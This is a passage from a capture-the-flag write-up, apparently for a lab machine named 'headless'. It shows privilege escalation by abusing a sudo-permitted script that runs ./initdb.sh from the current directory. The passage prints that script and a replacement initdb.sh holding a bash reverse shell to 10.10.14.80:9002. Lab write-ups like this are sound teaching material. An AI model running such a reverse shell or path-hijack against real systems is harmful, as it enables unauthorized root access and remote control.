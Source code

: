 
## Privesc

First things first, let's run a `sudo -l` and see what commands we can run.

```
-bash-5.2$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

Let's dig into `/usr/bin/syscheck`

```
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

We can see it runs the `initdb.sh` script if it's not running yet (a simple check will tell us there's no process running associated with the script)
Let's create a simple initdb.sh script which run a revshell (you can also invoke bash again if you want)

```
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.80/9002 0>&1
```
